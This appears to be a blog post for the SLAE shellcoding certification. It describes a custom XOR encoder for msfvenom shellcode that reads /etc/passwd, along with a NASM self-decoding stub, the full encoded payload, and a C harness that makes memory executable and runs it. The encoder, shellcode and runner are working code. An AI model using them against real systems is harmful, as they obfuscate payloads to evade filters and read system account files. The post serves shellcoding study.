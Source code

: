 # Assignment 4: Custom Encoder

- Create a custom encoding scheme like the “Insertion Encoder” we showed you 
- PoC with using execve-stack as the shellcode to encode with your schema and execute 



For this assignment, I will be taking an msfpayload and writing a python script to encode it. Then I will wrap the msfvenomm payload in some assmebly that will decode itself in place and execute.

The msfvenom payload I will encode is generated with:

```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
```

This results in the following shellcode:
```c
"\xdd\xc1\xbf\x50\xc4\x41\xa4\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x7a\x18\x03\x7a\x18\x83\xc2\x54\x26\xb4\x4f\x62\x1e\x32\x90\x8a\x5e\x66\xa1\x43\x93\x18\x48\x90\x94\x1a\x4b\x16\xe5\x95\xac\x9f\x1c\x1f\x32\x8f\xde\x60\xfe\x2f\x57\xa2\xb8\x2b\x68\x23\xb9\x88\x69\x23\xb9\xee\xa4\xa3\x01\xef\x36\xa4\x71\x54\x36\xa4\x71\xaa\xfa\x24\x99\x6f\xfb\xda\xa5\x40\x61\x51\x39\xb1\x19\xf8\xce\xbe\xae\x9e\x30"
```

# Encoding: Python

My python script that will do the encoding is below:

```python
#!/bin/python3
import random
import binascii


# msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
payload = b"\xbe\xd4\xa1\x45\x1e\xda\xc1\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x13\x31\x75\x13\x83\xed\xfc\x03\x75\xdb\x43\xb0\xf5\xd5\x3b\x3e\x0a\x19\x3c\x1a\x3b\xd0\xf1\x1c\xb2\x21\xb1\x1e\xc5\xa5\xc2\xa9\x22\x2c\x3b\x13\xac\x3e\xbc\x64\x60\xbe\x35\xa6\xc2\xba\x45\x27\x33\x79\x44\x27\x33\x7d\x8a\xa7\x8b\x7c\x14\xa8\xeb\xc5\x14\xa8\xeb\x39\xd8\x28\x03\xfc\x1d\xd7\x2b\xd1\x84\x5c\xb7\x02\x37\xfc\x44\x2f\xc0\x9a\xaa"

bad_bytes = [ 0xff, 0x00 ]

output = ""
for b in payload:
    # new random byte to xor with
    while True:
        rand_byte = random.randbytes(1)

        # xor real shellcode byte with randomly generated byte
        new_shellcode_byte = b ^ int.from_bytes(rand_byte, 'little')

        # check if new shellcode will contatin 0xff or 0x00    
        if not rand_byte in bad_bytes and not new_shellcode_byte in bad_bytes:
            break
        print("FOUND 0xFF or 0x00 in rand_byte or new_shellcode_byte, generating new random byte!!")
        
    # print(f"{hex(b)} ^ {hex(int.from_bytes(rand_byte, 'little'))} = {hex(new_shellcode_byte)}")
    output += '\\x' + binascii.hexlify(rand_byte).decode('utf-8')
    output += '\\x' + hex(new_shellcode_byte)[2:].zfill(2)

# append our end stub to the end of our payload. This signifies the exit condition.
output += '\\xff\\xff'


print(f"\n{output}\n")
print(", 0x".join(output.split('\\x'))[2:])
print("\nlength: " + str(len(output.split('\\x')) - 1), " - hex: ", str(hex(len(output.split('\\x')) - 1)))
```

This script accepts the original shellcode in the `payload` variable. It then iterates and generates a random byte to xor with each byte of the original payload.

The new shellcode will be in the form of `<random_byte><old_byte ^ random_byte>`. 

If either of these bytes are a `0x00` or `0xff`, a new random byte is generated and the old shellcode is xor'd with the new random byte. This is to avoid `0x00` in the new payload and `0xff` which will be appended as the exit condition during decoding. Additionally, a `bad_bytes` array is used, thus it is trivial to add additional bad characters you would like to avoid in the final shellcode (note that 0xff is required as it is the exit condition).

# Decoder: Assembly

```assembly
; Filename: custom_decode.nasm
; read /etc/passwd


global _start

section .text
_start:
	jmp _shellcode


_decode_stub:
	pop esi 						; ptr to encoded_shellcode
	xor ecx, ecx			
	mul ecx							; ecx, edx, eax all cleared
	xor ebx, ebx					; ebx cleared

_loop:
	mov dl, byte [esi + ecx]		; mov random byte to dl
	mov bl, byte [esi + ecx + 1]	; mov next instruction to be xor'ed
	
	; exit condition
	cmp bl, 0xff 					; is next byte to xor a 0xff 
	jz _execute
	
	xor bl, dl
	mov byte [esi + eax], bl		; move dl to shellcode
	add ecx, 0x2
	inc eax
	jmp _loop


_execute:
	jmp esi


; section .data						; need .data section to be writable
									; OR, compile with 'ld -N' to make .text section not read-only
_shellcode:
	call _decode_stub
	encoded_shellcode: db 0x8b, 0x56, 0x97, 0x56, 0xab, 0x14, 0x77, 0x27, 0x8e, 0x4a, 0x1b, 0x5a, 0x9a, 0x3e, 0x22, 0xfb, 0xc8, 0xbc, 0xef, 0xcb, 0x74, 0x80, 0x91, 0xcb, 0x1c, 0x37, 0x55, 0x9c, 0xce, 0x7f, 0x9c, 0x8f, 0x17, 0x26, 0xb3, 0xc9, 0x90, 0x88, 0x66, 0x65, 0xf2, 0x88, 0x7b, 0x63, 0xcb, 0x48, 0x78, 0xba, 0x40, 0x14, 0x23, 0x05, 0x91, 0x25, 0xa2, 0xed, 0xd7, 0xb5, 0x01, 0x1f, 0xd2, 0xe0, 0xae, 0x3e, 0xef, 0x65, 0x0f, 0x51, 0x37, 0x51, 0x45, 0xe4, 0xe9, 0xaa, 0xcb, 0x58, 0x4a, 0x52, 0x83, 0xcb, 0xf9, 0x69, 0x3b, 0xaf, 0x2b, 0x31, 0x86, 0xcd, 0x28, 0x3e, 0xd1, 0x34, 0xf3, 0x66, 0xed, 0x41, 0x42, 0xdd, 0xb4, 0xa8, 0x59, 0x46, 0x81, 0xb3, 0x77, 0xf8, 0xca, 0x14, 0x76, 0x16, 0x04, 0xfa, 0x96, 0xb9, 0x82, 0xd5, 0xd3, 0x71, 0x7d, 0xc5, 0x7e, 0x55, 0xcc, 0xa4, 0x86, 0xa5, 0x6e, 0xd7, 0x66, 0xee, 0xd4, 0xbd, 0xcc, 0xef, 0x5d, 0xe4, 0x78, 0x96, 0xe7, 0x43, 0xd4, 0x77, 0x71, 0x70, 0xb7, 0x58, 0x9d, 0xab, 0xb6, 0x12, 0x74, 0x05, 0xfe, 0xaa, 0x4a, 0x7c, 0xb5, 0x11, 0x42, 0x33, 0x09, 0xa3, 0xc2, 0x38, 0x3f, 0x1b, 0xf5, 0x6c, 0xd7, 0xb8, 0xbd, 0x46, 0x09, 0xd3, 0x66, 0xc3, 0x5b, 0x1b, 0x08, 0x69, 0x77, 0x26, 0xb4, 0x8d, 0x16, 0xa7, 0xcd, 0xd4, 0x76, 0x8e, 0x1c, 0xd2, 0x75, 0xcb, 0x94, 0x3a, 0x09, 0x97, 0x39, 0x09, 0xff, 0xff

```

Here, the `encoded_shellcode` is the output from the previous python encoder script.

This assembly just reverses the encoding process. First, a pointer to the original shellcode is loaded into the `esi` register using the jmp, call, pop technique.

It then jumps by 2 bytes during each loop and grabs the random_byte in `dl` and the xor'd original byte in `bl`. It then xor's these two values for the actual original byte, and overwrites the encoded shellcode in place.

Once an `0xff` is found, the exit condition has been met, and the code jumps to the position pointed at by `esi`, the decoded shellcode.

# Testing

This can be tested with the following test_decoder.c file:
```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\xeb\x20\x5e\x31\xc9\xf7\xe1\x31\xdb\x8a\x14\x0e\x8a\x5c\x0e\x01\x80\xfb\xff\x74\x0b\x30\xd3\x88\x1c\x06\x83\xc1\x02\x40\xeb\xe9\xff\xe6\xe8\xdb\xff\xff\xff\x8b\x56\x97\x56\xab\x14\x77\x27\x8e\x4a\x1b\x5a\x9a\x3e\x22\xfb\xc8\xbc\xef\xcb\x74\x80\x91\xcb\x1c\x37\x55\x9c\xce\x7f\x9c\x8f\x17\x26\xb3\xc9\x90\x88\x66\x65\xf2\x88\x7b\x63\xcb\x48\x78\xba\x40\x14\x23\x05\x91\x25\xa2\xed\xd7\xb5\x01\x1f\xd2\xe0\xae\x3e\xef\x65\x0f\x51\x37\x51\x45\xe4\xe9\xaa\xcb\x58\x4a\x52\x83\xcb\xf9\x69\x3b\xaf\x2b\x31\x86\xcd\x28\x3e\xd1\x34\xf3\x66\xed\x41\x42\xdd\xb4\xa8\x59\x46\x81\xb3\x77\xf8\xca\x14\x76\x16\x04\xfa\x96\xb9\x82\xd5\xd3\x71\x7d\xc5\x7e\x55\xcc\xa4\x86\xa5\x6e\xd7\x66\xee\xd4\xbd\xcc\xef\x5d\xe4\x78\x96\xe7\x43\xd4\x77\x71\x70\xb7\x58\x9d\xab\xb6\x12\x74\x05\xfe\xaa\x4a\x7c\xb5\x11\x42\x33\x09\xa3\xc2\x38\x3f\x1b\xf5\x6c\xd7\xb8\xbd\x46\x09\xd3\x66\xc3\x5b\x1b\x08\x69\x77\x26\xb4\x8d\x16\xa7\xcd\xd4\x76\x8e\x1c\xd2\x75\xcb\x94\x3a\x09\x97\x39\x09\xff\xff";


int main(){
  printf("Shellcode length: %d\n", strlen(code));
  int r =  mprotect((void *)((int)code & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
  printf("mprotect: %d\n",r);
  int (*ret)() = (int(*)())code;
  return ret();
}
```


To obtain the `code` here, we compile and link the assembly defined above. However, due to the large data blob of the encoded shellcode, I was receiving errors when trying to execute this test_decoder.c file. Upon further inspection, I noticed my previous function to dump shellcode was removing important bytes from my shellcode. Thus, I rewrote it to (hopefully) be more consistant:

```bash
dump-shellcode () {
    # OLD METHOD
    # objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

    # NEW METHOD
    objdump -d "$1" |grep '[0-9a-f]:' | grep -v file | cut -d':' -f2- | sed 's/^\W*//g' | grep -Po "^([0-9a-f]{2} )+" | tr -d '\n' | sed 's/\W/\\x/g' | sed 's/^/\\x/g' | rev | cut -c3- |rev
}
```

running `dump-shellcode <compiled_linked_assembly_binary>` resulted in the full encoded shellcode and worked flawlessly. 

Once the `test.c` file is in order, it can be compiled and ran using:
```bash
gcc -fno-stack-protector -z execstack -m32 test_decoder.c -o test_decoder
./test_decoder
``` 



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: PA-29350
